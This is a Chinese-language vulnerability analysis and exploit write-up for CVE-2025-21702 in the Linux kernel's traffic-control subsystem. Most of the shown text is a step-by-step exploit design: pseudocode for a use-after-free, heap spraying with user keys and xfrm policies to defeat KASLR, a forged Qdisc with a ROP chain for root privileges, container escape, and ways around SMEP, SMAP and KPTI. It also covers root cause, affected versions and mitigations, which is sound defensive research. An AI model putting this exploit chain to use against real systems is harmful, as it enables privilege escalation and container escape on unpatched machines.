for (i = 0; i < key_spray_count; i++) {
    user_key_payload_read(key_spray[i], read_buffer, sizeof(read_buffer));
    fake_rb_node = (struct rb_node *)(read_buffer
                                      + HFSC_CLASS_EL_NODE_OFFSET
                                      - sizeof(struct user_key_payload));
    if (fake_rb_node->rb_right) {
        reclaim_key = key_spray[i];
        break;
    }
}
/* 释放其余无关的 user_key_payload */

/* ============================================================
 * Step 8：触发 datalen 覆写
 * ============================================================ */
/* 此处不能走 hfsc_enqueue() -> init_ed() 路径。
 * 因为 Step 6 之后 Victim_Qdisc->q.qlen == 0，
 * 入队成功会使 qlen 变为 1，进而触发 hfsc_dequeue() 破坏红黑树布局。
 * 正确做法是通过 hfsc_change_class() 切换标志来触发 init_ed()。 */

create_hfsc_class(class_D, HFSC_FSC);
create_pfifo_head_drop_qdisc(Qdisc_C, limit = 0, parent = class_D);
change_hfsc_qdisc_route(Qdisc_A, class_D);
trigger_qdisc_enqueue_with_bigger_packet(Qdisc_A);
/* 使用 bigger packet：数据包大小是 cl_e 计算过程的一部分。
 * 测试表明，使用 bigger packet 后，插入方向始终沿 rb_right 进行，
 * 成功率从 90% 提升至 100%。
 * 此时 Qdisc_C->q.qlen == 1 */

change_hfsc_class(class_D, HFSC_RSC);
/* 将 class_D 从 HFSC_FSC 切换为 HFSC_RSC。
 * 在 hfsc_change_class() 中：
 *   cl->cl_flags 包含 HFSC_RSC
 *   old_flags 不包含 HFSC_RSC（因为 class_D 原本为 HFSC_FSC）
 * 因此调用 init_ed() -> eltree_insert() -> rb_insert_color()
 *   -> __rb_insert() -> rb_set_parent_color(tmp, gparent, RB_BLACK)
 * 该写入将 user_key_payload_B->datalen 覆写为较大的内核地址值 */

/* ============================================================
 * Step 9：堆喷 xfrm_policy，填充 kmalloc-1k
 * ============================================================ */
for (i = 0; i < SPRAY_COUNT; i++)
    xfrm_add_policy();
/* 每个 xfrm_policy 的 timer.function 指向 xfrm_policy_timer */

/* ============================================================
 * Step 10：越界读取，扫描 xfrm_policy 的 timer.function
 * ============================================================ */
user_key_payload_read(key_B, leak_buffer, sizeof(leak_buffer));
for (offset = 0; offset < sizeof(leak_buffer); offset += 8) {
    candidate = *(u64 *)(leak_buffer + offset);
    if (is_kernel_text(candidate)) {
        leaked_timer_function = candidate;
        break;
    }
}

/* ============================================================
 * Step 11：计算内核基址
 * ============================================================ */
kernel_base = leaked_timer_function - XFRM_POLICY_TIMER_OFFSET;
```

至此，内核基址已获得。该基址用于权限提升阶段构造 ROP 链，并计算 `prepare_kernel_cred()`、`commit_creds()` 等函数的目标地址。

#### 2-6-7. 权限提升

该阶段的目标是重新构造一个独立的 UAF 槽位，用伪造的 Qdisc 回收该槽位，通过劫持 `hfsc_dequeue()` 中的 `qdisc_dequeue_peeked()` 调用完成控制流转移，最终执行 ROP 链完成权限提升。该 UAF 槽位被伪造的 Qdisc 回收，其生命周期终止于 ROP 链执行完毕、返回用户态之后。伪造 Qdisc 中 `dequeue` 函数指针与 ROP 链中所有函数地址均基于 KASLR 绕过阶段获得的内核基址计算。以下以伪代码形式描述关键步骤。

```c
/* ============================================================
 * Step 1：重新构造第二个 UAF 槽位
 * ============================================================ */
prepare_uaf(route_socket, packet_socket, ifindex,
            qdisc_A_handle, qdisc_B_handle, qdisc_C_handle,
            classid_A);
trigger_uaf(route_socket, ifindex, classid_A);
/* uaf_slot_2 与 uaf_slot_1 是两个独立的 kmalloc-1k 槽位 */

/* ============================================================
 * Step 2：用 user_key_payload 回收第二个 UAF 槽位
 * ============================================================ */
fake_rb_node->__rb_parent_color = 0 | RB_BLACK;
fake_rb_node->rb_right = NULL;
fake_rb_node->rb_left = NULL;
key_A = user_key_payload_alloc(fake_rb_node, sizeof(buffer));

/* ============================================================
 * Step 3：泄露 class_B 的堆地址
 * ============================================================ */
create_hfsc_class(class_B, HFSC_RSC);
change_hfsc_qdisc_route(Qdisc_A, class_B);
trigger_qdisc_enqueue(Qdisc_A);
user_key_payload_read(key_A, read_buffer, sizeof(read_buffer));
fake_rb_node = (struct rb_node *)(read_buffer
                                  + HFSC_CLASS_EL_NODE_OFFSET
                                  - sizeof(struct user_key_payload));
class_B_addr = (u64)fake_rb_node->rb_right - HFSC_CLASS_EL_NODE_OFFSET;
/* class_B_addr 即为第二个 UAF 槽位的堆地址 */

/* ============================================================
 * Step 4：删除 class_B，准备用伪造 Qdisc 回收该槽位
 * ============================================================ */
delete_tclass(class_B);

/* ============================================================
 * Step 5：构造伪造 Qdisc 与 ROP 链
 * ============================================================ */
memset(buffer, 0, sizeof(buffer));
fake_qdisc = (u64 *)(buffer + HFSC_CLASS_QDISC_OFFSET
                     - sizeof(struct user_key_payload));
*fake_qdisc = class_B_addr + sizeof(struct user_key_payload);
/* fake_qdisc 指向 payload 内部 */

fake_qdisc_dequeue = (u64 *)(buffer + HFSC_CLASS_QDISC_OFFSET
                             - sizeof(struct user_key_payload)
                             + QDISC_DEQUEUE_OFFSET);
*fake_qdisc_dequeue = kernel_base + ASYNC_RUN_ENTRY_FN_OFFSET + 5;
/* 将伪造 Qdisc 的 dequeue 指向 async_run_entry_fn + 5 */

fake_cl_e = (u64 *)(buffer + HFSC_CLASS_CL_E_OFFSET
                    - sizeof(struct user_key_payload));
*fake_cl_e = 0;
/* cl_e 设为 0，使该节点在 eligible 树中被优先选中 */

/* 在 payload 中布置 ROP 链，依次调用：
 *   prepare_kernel_cred(init_task)
 *   commit_creds()
 *   将 current->fs 覆写为 init_fs
 *   swapgs; iretq 返回用户态
 *
 * 注意：LTS 实例与 COS 实例在寄存器层面存在差异：
 *   - LTS 实例中，RDI 指向包含 ROP 链的缓冲区
 *   - COS 实例中，RBX 指向包含 ROP 链的缓冲区
 * 因此 ROP 链的起始寄存器选择需针对不同实例调整。
 */
build_rop_chain(buffer, kernel_base);

/* ============================================================
 * Step 6：释放 user_key_payload_A，堆喷伪造数据回收第二个 UAF 槽位
 * ============================================================ */
user_key_payload_free_and_wait_for_gc(&key_A);
for (i = 0; i < SPRAY_COUNT; i++)
    user_key_payload_alloc(buffer, sizeof(buffer));
/* 此时 UAF_hfsc_class->qdisc 指向伪造的 Qdisc */

/* ============================================================
 * Step 7：确保后续入队返回 NET_XMIT_SUCCESS
 * ============================================================ */
create_pfifo_head_drop_qdisc(Qdisc_A, limit = 0xFFFFFFFF,
                             parent = qdisc_A_handle);
change_hfsc_qdisc_route(Qdisc_A, qdisc_A_handle);
/* 入队路径将正常返回成功，从而触发 dequeue */

/* ============================================================
 * Step 8：触发控制流转移
 * ============================================================ */
trigger_qdisc_enqueue(Qdisc_A);
/* 第一次入队：qlen == 0，hfsc_dequeue() 提前返回 */
trigger_qdisc_enqueue(Qdisc_A);
/* 第二次入队：qlen == 1，hfsc_dequeue() 继续执行 */

/* 在 hfsc_dequeue() 中：
 *   cl = eltree_get_mindl(q, cur_time);  // cl 为 UAF 指针
 *   skb = qdisc_dequeue_peeked(cl->qdisc);  // cl->qdisc 为伪造 Qdisc
 *   qdisc_dequeue_peeked() 内部：
 *     skb = sch->dequeue(sch);  // 调用伪造 Qdisc 的 dequeue
 * 控制流转移至 async_run_entry_fn + 5，进入 ROP 链 */

/* ============================================================
 * Step 9：ROP 链执行
 * ============================================================ */
/* prepare_kernel_cred(init_task) -> commit_creds() ->
 * 覆写 current->fs -> swapgs; iretq -> win() */
```

至此，从计数偏差到 UAF、再到 KASLR 绕过与权限提升的完整链条建立完成。各阶段之间通过精确的时序控制与内存布局操作相互衔接，最终将 `pfifo_tail_enqueue()` 的一个边界条件计数错误放大为可用于权限提升的 UAF 漏洞。

### 2-7. 影响范围

#### 2-7-1. 受影响内核版本

根据修复提交的 CPE 配置，受影响的内核版本范围如下：

- `>= 2.6.34 < 5.4.291`
- `>= 5.5 < 5.10.235`
- `>= 5.11 < 5.15.179`
- `>= 5.16 < 6.1.130`
- `>= 6.2 < 6.6.83`
- `>= 6.7 < 6.12.14`
- `>= 6.13 < 6.13.3`
- `6.14-rc1`

#### 2-7-2. 引入版本与影响时间

该漏洞由提交 `57dbb2d83d10` 引入，该提交在 Linux v2.6.34 中添加了 `pfifo_head_drop` 队列类型。自那时起，`pfifo_tail_enqueue()` 在 `sch->limit == 0` 且队列为空时的行为偏差便已存在。该漏洞影响内核超过十五年，直至 2025 年 2 月修复提交 `647cef20e649` 合入主线。

#### 2-7-3. 受影响组件

该漏洞位于 Linux 内核的流量控制（TC）子系统，具体涉及 `net/sched/sch_fifo.c` 中的 `pfifo_tail_enqueue()` 函数。受影响的具体队列类型为 `pfifo_head_drop`，以及与之配合的 HFSC（Hierarchical Fair Service Curve）调度器。

#### 2-7-4. 发行版状态

主要 Linux 发行版（Ubuntu、SUSE、Debian等）均已发布安全公告，并提供了包含修复补丁的内核更新。用户应及时更新至相应发行版提供的安全版本。

#### 2-7-5. 可达性分析

触发该漏洞通常需要 `CAP_NET_ADMIN` 与 `CAP_NET_RAW` 能力。在启用非特权用户命名空间（`CONFIG_USER_NS`）与网络命名空间（`CONFIG_NET_NS`）的环境中，普通用户可以通过创建独立的用户命名空间与网络命名空间获得这些能力，从而配置 qdisc 子系统。因此，在默认启用用户命名空间的发行版中，该漏洞的可达门槛显著降低。

#### 2-7-6. 潜在影响

该漏洞可导致 **Use-After-Free**，进而可能被用于实现本地权限提升。由于 HFSC 与 `pfifo_head_drop` 均为内核标准组件，且 `limit == 0` 的异常配置可通过 netlink 消息直接构造，该漏洞在实际环境中具备被利用的可能性。

#### 2-7-7. 缓解措施

- 更新内核至包含修复补丁的版本。
- 如无法立即更新，可考虑禁用非特权用户命名空间（`kernel.unprivileged_userns_clone=0`）或限制 `CAP_NET_ADMIN` 能力，以降低可达性。
- 监控异常的 qdisc 配置与相关系统调用。

### 2-8. 总结

**CVE-2025-21702** 是 Linux 内核流量控制子系统中一个由边界条件触发的队列长度计数不一致漏洞。其根源在于 `pfifo_tail_enqueue()` 在 `sch->limit == 0` 且队列为空时，丢弃步骤空转而追加步骤执行，导致子 qdisc 的 `qlen` 被错误递增，同时函数返回 `NET_XMIT_CN`。父 qdisc 因收到非成功返回值而不增加自身 `qlen`，父子队列长度的一致性契约被破坏。该计数偏差经一系列 qdisc 创建、删除与类变更操作放大后，最终演化为 `hfsc_class` 对象的 **Use-After-Free**。

漏洞的完整触发链条可概括为：在 HFSC 调度器与 `pfifo_head_drop` 子 qdisc 之间建立计数偏差，使父 qdisc 的 `qlen` 变为负值；通过类变更操作，在 Flow1 尚未执行 `init_ed()` 之前提前触发 Flow2，使 `el_node` 经历 `eltree_remove()` → `eltree_insert()` → `eltree_insert()` 的错序调用，形成自引用结构；删除目标类，释放 `hfsc_class` 对象，但 `sched->eligible.rb_node` 仍持有悬空指针，形成 UAF 槽位；利用第一个 UAF 槽位构建堆读原语，配合 `xfrm_policy` 堆喷完成 KASLR 绕过；重新构造第二个 UAF 槽位，用伪造的 Qdisc 回收该槽位，通过 `qdisc_dequeue_peeked()` 内部调用伪造 Qdisc 的 `dequeue` 函数指针完成控制流转移，执行 ROP 链完成权限提升。

该漏洞由提交 `57dbb2d83d10` 引入，该提交在 Linux v2.6.34 中添加了 `pfifo_head_drop` 队列类型。自那时起，`pfifo_tail_enqueue()` 在 `sch->limit == 0` 且队列为空时的行为偏差便已存在。受影响的内核版本范围包括 `>= 2.6.34 < 5.4.291`、`>= 5.5 < 5.10.235`、`>= 5.11 < 5.15.179`、`>= 5.16 < 6.1.130`、`>= 6.2 < 6.6.83`、`>= 6.7 < 6.12.14`、`>= 6.13 < 6.13.3` 以及 `6.14-rc1`。主要 Linux 发行版均已发布安全更新。在启用非特权用户命名空间与网络命名空间的环境中，普通用户可通过创建独立的用户命名空间与网络命名空间获得 `CAP_NET_ADMIN` 与 `CAP_NET_RAW` 能力，从而配置 qdisc 子系统，显著降低漏洞的可达门槛。该漏洞可导致 **Use-After-Free**，进而可能被用于实现本地权限提升。

修复方案是在 `pfifo_tail_enqueue()` 入口处增加 `sch->limit == 0` 的提前返回检查，直接丢弃传入的数据包，避免计数偏差的产生。如无法立即更新内核，可考虑禁用非特权用户命名空间或限制 `CAP_NET_ADMIN` 能力，以降低可达性；同时监控异常的 qdisc 配置与相关系统调用。

该漏洞的深层教训在于：内核子系统中父子组件之间的状态一致性不能依赖隐式约定，而应在边界条件下进行显式验证；返回值语义与状态更新逻辑之间的隐式耦合，可能使边界条件下的语义退化通过状态传播机制放大为内存安全问题；`limit == 0` 这一异常配置在正常使用中极少出现，但一旦被触发即可产生严重后果，内核开发者在处理边界条件时，必须确保所有状态变量在异常路径下仍然保持一致；该漏洞最初仅表现为队列长度计数错误，但通过精心构造的状态机操作，最终演化为 UAF，这提醒安全研究者，逻辑漏洞与内存安全漏洞之间并非泾渭分明，状态传播可能将微小的逻辑偏差放大为严重的内存破坏。

## 3. 利用思路

### 3-1. 整体架构设计

本方案的整体利用架构围绕两个独立的 UAF 槽位展开：第一个 UAF 槽位用于构建堆读原语并完成 KASLR 绕过；第二个 UAF 槽位用于构建代码执行原语并完成权限提升。两个阶段共享相同的 UAF 构造流程，但各自独立执行，互不干扰。这种设计使得信息泄露与权限提升在时序上分离，降低了因单一原语失败而导致整体不可用的风险。

UAF 构造流程由 `hfsc_uaf_prepare()` 与 `hfsc_uaf_trigger()` 两个函数驱动。前者负责准备 HFSC 调度器的计数偏差状态，使 Flow2 在 Flow1 之前执行；后者负责删除目标类，释放 `hfsc_class` 对象并留下悬空指针。堆读阶段通过 `key_alloc()`、`key_read()`、`key_invalidate()` 等用户密钥接口回收并操作 UAF 槽位；代码执行阶段则通过伪造的 `Qdisc` 对象替换 `hfsc_class->qdisc`，使 `hfsc_dequeue()` 中的 `qdisc_dequeue_peeked()` 调用受控的 `dequeue` 函数指针。

由于 kmalloc-1k 的 slab 布局受到 `CONFIG_SLAB_FREELIST_RANDOM`、`CONFIG_SLAB_FREELIST_HARDENED` 以及系统负载等多种因素影响，KASLR 绕过阶段的成功率并非百分之百。为此，方案将整个 KASLR 绕过流程（包括堆读上下文准备、堆读原语构造、越界读取与内核基址计算）作为一个整体进行重试。若其中任一环节失败，则清理全部已分配资源，回到 KASLR 阶段起点，重新进行环境布局与堆喷。重试循环由 `MAX_LEAK_ATTEMPTS` 控制，默认上限为 16 次。每次重试包含以下步骤：

1. 清理上一轮遗留的所有资源，包括删除 dummy netdev、释放所有用户密钥对象、释放 XFRM 策略对象。
2. 重新执行堆读上下文准备，包括打开套接字、创建 dummy netdev、准备 XFRM 策略描述符。
3. 重新构造堆读原语，包括 UAF 槽位的准备、回收、堆地址泄露、密钥重叠扫描以及 `datalen` 放大。
4. 若堆读原语构造失败（例如未找到与 UAF 槽位重叠的密钥），则回到步骤 1。
5. 若堆读原语构造成功，则尝试通过越界读取完成 KASLR 绕过。若未在泄漏缓冲区中找到可识别的 `xfrm_policy` 对象，同样回到步骤 1。
6. 若 KASLR 绕过成功，则记录内核基址与内核滑动，退出重试循环，进入代码执行阶段。

每轮重试均会重新创建 dummy netdev 与用户密钥对象，确保堆状态从干净的环境开始。重试上限的设定兼顾了成功率与执行时间，避免在极端情况下无限循环。

权限提升阶段的现有实现未引入重试机制。若在回收第二个 UAF 槽位或触发 ROP 链时未能命中，程序会直接终止。作为优化措施，可在该阶段添加与 KASLR 阶段类似的有界重试循环：重新构造第二个 UAF 槽位，重新布置伪造 Qdisc 与 ROP 链，并重新触发 dequeue。由于代码执行阶段资源消耗较大，重试次数应低于 KASLR 阶段。



### 3-2. 阶段 0：环境初始化

阶段 0 负责准备利用所需的基础环境。主要操作包括：

1. 调用 `save_status()` 保存用户态寄存器状态（`CS`、`SS`、`RSP`、`RFLAGS`），以便后续 ROP 链通过 `swapgs_restore_regs_and_return_to_usermode` 返回用户态并跳转至 `get_root_shell()`。
2. 调用 `bind_core(0)` 将当前任务绑定到 CPU 0，使 kmalloc-1k 的 per-CPU slab 缓存行为确定，提高堆布局的可预测性。
3. 调用 `unshare_setup()` 创建独立的用户命名空间与网络命名空间，使进程获得 `CAP_NET_ADMIN` 与 `CAP_NET_RAW` 能力，从而能够配置 qdisc 子系统，而无需影响宿主环境。



### 3-3. 阶段 1：堆读上下文准备

阶段 1 为堆读原语与 KASLR 绕过准备所需的上下文。主要操作包括：

1. 调用 `netlink_socket_open(NETLINK_ROUTE)` 打开 NETLINK_ROUTE 套接字，用于后续的 `hfsc_class_create()`、`hfsc_class_delete()`、`hfsc_qdisc_set_default()` 等流量控制操作。
2. 调用 `socket(AF_PACKET, SOCK_RAW, 0)` 打开原始数据包套接字，用于通过 `tc_trigger_enqueue()` 驱动 qdisc 入队。
3. 调用 `netdev_add_dummy()` 创建 dummy netdev，并通过 `netdev_set_up()` 将其启用。dummy netdev 的 MTU 被设置为 `IPV6_MIN_MTU - 1`，以避免内核调用 `ipv6_add_dev()` 并启动路由器 solicitation 定时器。该定时器会向同一 qdisc 树发送数据包，干扰红黑树状态的精确控制。
4. 调用 `netlink_socket_open(NETLINK_XFRM)` 打开 NETLINK_XFRM 套接字，并准备 `xfrm_policy` 策略描述符数组，供后续 `xfrm_spray_alloc()` 堆喷使用。

这些准备工作为后续的 UAF 构造与堆读原语提供了稳定的操作环境。dummy netdev 的 MTU 设置是一个关键细节：若 MTU 不小于 `IPV6_MIN_MTU`，内核会自动创建 IPv6 设备并启动定时器，该定时器会向 qdisc 树发送数据包，打乱精心构造的红黑树状态。



### 3-4. 阶段 2：堆读原语构造

阶段 2 构造堆读原语，核心目标是将一个 `user_key_payload` 对象的 `datalen` 字段覆写为一个较大的内核地址值，使得后续 `key_read()` 能够越界访问相邻的 kmalloc-1k 对象。该阶段的具体步骤如下：

1. 调用 `hfsc_uaf_prepare()` 准备 UAF 状态。该函数通过一系列 qdisc 创建、删除与路由修改操作，在 HFSC 调度器中建立计数偏差。具体而言，它先创建一个 `limit == 0` 的 `pfifo_head_drop` 子 qdisc，触发一次错误入队后删除该子 qdisc，使父 qdisc 的 `qlen` 变为负值。随后创建目标类 `class_A` 及其叶 qdisc `Qdisc_B`，再次触发错误入队并删除子 qdisc，使 `Qdisc_B` 的 `qlen` 也变为负值。此时 `hfsc_change_class()` 中的 `cl->qdisc->q.qlen != 0` 条件成立，Flow2 路径被提前触发，调用 `update_ed()` → `eltree_update()` → `eltree_remove()` 与 `eltree_insert()`。随后 `hfsc_enqueue()` 触发 Flow1，调用 `init_ed()` → `eltree_insert()`。两次 `eltree_insert()` 作用于同一个 `el_node`，使其 `__rb_parent_color` 与 `rb_left` 指向自身，`sched->eligible.rb_node` 形成自引用。

2. 调用 `hfsc_uaf_trigger()` 删除目标类。`hfsc_delete_class()` 最终调用 `hfsc_destroy_class()`，释放 `hfsc_class` 对象，但 `sched->eligible.rb_node` 仍持有悬空指针，UAF 槽位由此产生。

3. 调用 `key_alloc()` 分配 `user_key_payload_A` 回收 UAF 槽位。在分配前，通过 `memset()` 清零负载区域，并设置 fake `rb_node` 的 `__rb_parent_color`、`rb_right`、`rb_left` 字段，使其与内核中 `hfsc_class` 的 `el_node` 布局对齐。

4. 调用 `hfsc_class_create()` 创建 `class_B`，并通过 `hfsc_qdisc_set_default()` 将 `Victim_Qdisc` 的路由指向 `class_B`。随后调用 `tc_trigger_enqueue()` 触发入队，使 `init_ed(class_B)` → `eltree_insert(class_B)` 执行。此时 `UAF_rb_node->rb_right` 指向 `class_B->el_node`。调用 `key_read()` 读取 `user_key_payload_A` 的数据，从 fake `rb_node` 的 `rb_right` 字段中提取 `class_B` 的堆地址。该地址即为后续 `user_key_payload_B` 的起始地址。

5. 调用 `hfsc_class_delete()` 删除 `class_B`，并调用 `key_alloc()` 分配 `user_key_payload_B` 回收其槽位。将 fake `rb_node` 的 `rb_left` 指向 `user_key_payload_B->datalen`，为后续的写入原语做准备。

6. 调用 `key_invalidate()` 释放 `user_key_payload_A`，并循环调用 `key_alloc()` 喷发多个 `user_key_payload` 对象，使其中一个回收 UAF 槽位。由于 SLUB 分配器的随机性，需要通过喷发多个对象来增加命中概率。

7. 调用 `hfsc_class_create()` 创建 `class_C`，并通过 `tc_trigger_enqueue()` 触发入队，使 `UAF_rb_node->rb_right` 指向 `class_C->el_node`。此时红黑树布局为：根节点为 `UAF_rb_node`，左孩子指向 `user_key_payload_B->datalen`，右孩子指向 `class_C->el_node`。

8. 循环调用 `key_read()` 扫描所有喷发密钥，寻找 `fake_rb_node->rb_right` 非空的对象，该对象即为与 UAF 槽位重叠的密钥。随后调用 `key_invalidate()` 释放其余无关密钥，仅保留重叠密钥。

9. 调用 `hfsc_class_create()` 创建 `class_D`（带 `HFSC_FSC` 标志），并调用 `pfifo_qdisc_create()` 为其创建 `limit == 0` 的 `pfifo_head_drop` 子 qdisc。调用 `tc_trigger_enqueue_large()` 触发入队，使 `Qdisc_C->q.qlen` 变为 1。随后调用 `hfsc_class_replace()` 将 `class_D` 从 `HFSC_FSC` 切换为 `HFSC_RSC`。在 `hfsc_change_class()` 中，由于 `old_flags` 不包含 `HFSC_RSC`，函数调用 `init_ed()` → `eltree_insert()` → `rb_insert_color()` → `__rb_insert()`。在 `__rb_insert()` 的颜色翻转分支中，`rb_set_parent_color(tmp, gparent, RB_BLACK)` 将 `tmp->__rb_parent_color` 覆写为 `gparent | RB_BLACK`。由于 `tmp` 指向 `user_key_payload_B->datalen`，`datalen` 被覆写为一个较大的内核地址值。至此，堆读原语构造完成。

若在步骤 8 中未能找到重叠密钥，或步骤 9 未能成功放大 `datalen`，则堆读原语构造失败。此时方案会清理本轮分配的所有资源，回到 KASLR 阶段起点，重新进行环境布局。重试上限由 `MAX_LEAK_ATTEMPTS` 控制。



### 3-5. 阶段 3：KASLR 绕过

阶段 3 利用阶段 2 构造的堆读原语完成 KASLR 绕过。主要操作为：

1. 调用 `xfrm_spray_alloc()` 堆喷大量 `xfrm_policy` 对象，填充 kmalloc-1k 缓存。每个 `xfrm_policy` 对象在初始化时通过 `timer_setup()` 将 `timer.function` 设置为 `xfrm_policy_timer`。该函数指针位于内核代码段，其地址与内核基址之间为固定偏移。
2. 调用 `key_read()` 读取 `user_key_payload_B` 的数据。由于 `datalen` 已被放大，读取操作会越过 `user_key_payload` 的实际分配边界，读取相邻 kmalloc-1k 对象的内容。
3. 调用 `find_xfrm_policy_in_leak()` 扫描读取到的数据，在对象边界之外寻找落在 `xfrm_policy` 的 `timer.function` 偏移处的内核地址。该函数通过匹配多个策略字段（`priority`、`if_id`、`mark`、`selector`、`lft` 等）避免误判。
4. 读取到 `timer.function` 指针后，减去其静态偏移 `XFRM_POLICY_TIMER`，得到内核基址 `kernel_base` 与内核滑动 `kernel_offset`。内核基址将用于阶段 5 构造 ROP 链，并计算 `prepare_kernel_cred()`、`commit_creds()` 等函数的目标地址。

若在泄漏缓冲区中未找到可识别的 `xfrm_policy` 对象，则 KASLR 绕过失败。此时方案会清理全部资源，回到 KASLR 阶段起点，重新进行环境布局与堆喷。若重试次数达到 `MAX_LEAK_ATTEMPTS` 仍未成功，则终止执行并报告失败。



### 3-6. 阶段 4：代码执行上下文准备

阶段 4 为代码执行原语准备上下文。主要操作包括：

1. 调用 `netlink_socket_open(NETLINK_ROUTE)` 打开新的 NETLINK_ROUTE 套接字。
2. 调用 `socket(AF_PACKET, SOCK_RAW, 0)` 打开新的原始数据包套接字。
3. 调用 `netdev_add_dummy()` 与 `netdev_set_up()` 创建并启用新的 dummy netdev。
4. 重置流量控制句柄与类标识符，仅使用 `classid_a` 与 `classid_b`。

该阶段与阶段 1 类似，但服务于代码执行原语。由于代码执行阶段仅需构造一个 UAF 槽位并替换 `hfsc_class->qdisc`，因此使用的类标识符数量较少。



### 3-7. 阶段 5：代码执行原语构造

阶段 5 构造代码执行原语。核心目标是使用伪造的 `Qdisc` 对象回收第二个 UAF 槽位，并使其 `dequeue` 函数指针指向 `async_run_entry_fn + 5`。当 `hfsc_dequeue()` 调用 `qdisc_dequeue_peeked(cl->qdisc)` 时，`qdisc_dequeue_peeked()` 内部的 `sch->dequeue(sch)` 将控制流转移至 `async_run_entry_fn + 5`。该函数将第一个参数视为 `entry->work` 指针，并调用 `entry->func(entry->data, entry->cookie)`。伪造的 `async_entry` 中，`entry->func` 指向栈转移 gadget，`entry->data` 与 `entry->cookie` 分别指向 ROP 链的不同位置。ROP 链依次执行：

1. `prepare_kernel_cred(init_task)` 准备 root 凭证。
2. `commit_creds()` 提交凭证。
3. `switch_task_namespaces()` 将当前任务的命名空间切换至初始命名空间，完成容器逃逸的前半部分。
4. `swapgs_restore_regs_and_return_to_usermode` 返回用户态并调用 `get_root_shell()`。

其中，`switch_task_namespaces()` 仅完成命名空间引用的切换，使当前任务在内核视角下归属于初始命名空间。用户态仍需通过 `setns()` 系统调用进入目标命名空间的具体视图。`get_root_shell()` 在用户态依次打开 PID 1 的挂载、PID 与网络命名空间描述符，并调用 `setns()` 将当前进程的挂载命名空间、PID 命名空间与网络命名空间切换至 PID 1 所属的命名空间，完成容器逃逸的后半部分。随后启动 root shell，获得具有 root 权限的交互式会话。

具体步骤为：

1. 调用 `hfsc_uaf_prepare()` 与 `hfsc_uaf_trigger()` 构造第二个 UAF 槽位。
2. 调用 `key_alloc()` 分配 `user_key_payload_A` 回收 UAF 槽位，并调用 `hfsc_class_create()` 创建 `class_B`，通过 `tc_trigger_enqueue()` 触发入队，调用 `key_read()` 泄露 `class_B` 的堆地址。
3. 调用 `hfsc_class_delete()` 删除 `class_B`，并在用户态负载中构造伪造的 `Qdisc`、`async_entry` 与 ROP 链。伪造 `Qdisc` 的 `dequeue` 字段设为 `kernel_offset + ASYNC_RUN_ENTRY_FN + 5`，`gso_skb.next` 指向自身以确保 `skb_peek()` 返回 NULL。伪造 `async_entry` 的 `func` 字段指向栈转移 gadget，`data` 与 `cookie` 字段指向 ROP 链。ROP 链中填入 `POP_RDI_RET`、`INIT_TASK`、`PREPARE_KERNEL_CRED`、`COMMIT_CREDS` 等 gadget 与函数地址。
4. 调用 `key_alloc()` 分配 `user_key_payload_B` 回收 `class_B` 的槽位。
5. 调用 `key_invalidate()` 释放 `user_key_payload_A`，并循环调用 `key_alloc()` 喷发多个密钥，使 `UAF_hfsc_class->qdisc` 指向伪造的 `Qdisc`。同时设置 `UAF_hfsc_class->cl_e = 0`，使该节点在 `eligible` 树中被优先选中。
6. 调用 `pfifo_qdisc_create()` 创建 `limit == 0xFFFFFFFF` 的 `pfifo_head_drop` 子 qdisc，并通过 `hfsc_qdisc_set_default()` 将根 qdisc 的路由指向自身。此举确保后续 `tc_trigger_enqueue()` 返回 `NET_XMIT_SUCCESS`，从而触发 `hfsc_dequeue()`。

若在步骤 5 中未能使 `UAF_hfsc_class->qdisc` 指向伪造的 `Qdisc`，则代码执行原语构造失败。现有实现会直接终止，不进行重试。作为优化措施，可在该阶段引入有界重试循环：释放本轮分配的密钥，清理 dummy netdev，重新构造第二个 UAF 槽位，并重新布置伪造 Qdisc 与 ROP 链。重试次数应低于 KASLR 阶段，以避免资源过度消耗。



### 3-8. 阶段 6：代码执行触发

阶段 6 触发代码执行。通过两次 `tc_trigger_enqueue()` 操作：

1. 第一次入队使根 qdisc 的 `qlen` 归零，`hfsc_dequeue()` 因 `sch->q.qlen == 0` 提前返回。
2. 第二次入队使 `qlen` 恢复为 1，`hfsc_dequeue()` 继续执行。在 `hfsc_dequeue()` 中，`cl = eltree_get_mindl(q, cur_time)` 返回 UAF 指针，`qdisc_dequeue_peeked(cl->qdisc)` 调用伪造 Qdisc 的 `dequeue` 函数指针，控制流转移至 `async_run_entry_fn + 5`，进入 ROP 链。ROP 链执行完毕后，通过 `swapgs_restore_regs_and_return_to_usermode` 返回用户态并调用 `get_root_shell()`。该函数先通过 `setns()` 进入 PID 1 的挂载、PID 与网络命名空间视图，再启动 root shell，完成从内核态权限提升到用户态容器逃逸的完整流程。

若两次入队后未成功进入 ROP 链（例如 `hfsc_dequeue()` 提前返回或未调用伪造 `dequeue`），现有实现会直接终止。作为优化措施，可在该阶段引入有限次数的重试：重新构造代码执行原语，重新布置伪造 Qdisc 与 ROP 链，并重新触发两次入队。触发失败通常意味着 UAF 槽位的布局在触发前被意外修改，此时需要完整重建代码执行原语，而非仅重复触发。



### 3-9. 内核保护机制的应对策略

现代内核通常启用多种安全机制，这些机制分别从地址空间随机化、执行权限隔离、内存分配隔离、堆元数据保护、控制流完整性以及内核与用户态数据交换边界等维度，对潜在的内存异常操作进行防御。本方案在设计之初便充分考量了这些保护机制的影响，并针对性地选择了相应的技术路径。

1. **KASLR**：随机化内核代码段、数据段和模块的加载基址。本方案不依赖内核虚拟地址预测，而是通过 `key_read()` 越界读取 kmalloc-1k 中相邻 `xfrm_policy` 对象的 `timer.function` 字段。该字段指向内核代码段中的 `xfrm_policy_timer`，其地址与内核基址之间为固定偏移。读取到该指针后减去静态偏移，即可得到内核基址。

2. **SMEP**：阻止内核态执行用户态虚拟地址中的代码。本方案不将用户态代码注入内核执行。控制流转移发生在内核态内部，通过伪造 Qdisc 的 `dequeue` 函数指针指向 `async_run_entry_fn + 5`，该地址位于内核代码段。ROP 链中的函数调用（`prepare_kernel_cred()`、`commit_creds()` 等）均在内核态完成，SMEP 无法阻断。

3. **SMAP**：阻止内核态通过用户态虚拟地址访问用户数据。本方案不通过用户指针直接访问用户数据。内核侧通过 `user_key_payload` 的 `data[]` 字段与 `xfrm_policy` 对象访问的是内核 slab 内存，而非用户态虚拟地址，因此 SMAP 无法阻断。

4. **KPTI**：分离内核页表与用户页表，使用户态页表不包含内核映射。本方案全程通过合法系统调用完成，不依赖用户态直接访问内核虚拟地址空间。

